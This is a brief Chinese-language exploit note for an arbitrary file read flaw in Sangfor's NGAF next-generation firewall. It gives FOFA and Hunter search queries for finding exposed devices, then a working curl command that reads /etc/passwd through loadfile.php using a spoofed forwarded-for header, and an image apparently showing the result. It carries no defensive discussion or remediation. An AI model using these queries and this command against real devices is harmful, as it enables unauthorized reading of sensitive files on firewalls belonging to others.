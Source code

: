 ## 深信服下一代防火墙NGAF任意文件读取漏洞

## fofa:

"Redirect.php?url=/LogInOut.php" && port="85"

## hunter:
web.body="LogInOut.php?type=logout"

## 漏洞复现
```
curl --insecure  https://<host>:85/svpn_html/loadfile.php?file=/etc/./passwd -H "y-forwarded-for: 127.0.0.1"

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/W3ujp2P7OjARkXD5FOjonOrfcK6Xr6QOVaCrI21fu9F1DcBPekwcPFBf8Q8vCrI4Qmiaia2YaMExoogwic2TSnNKQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



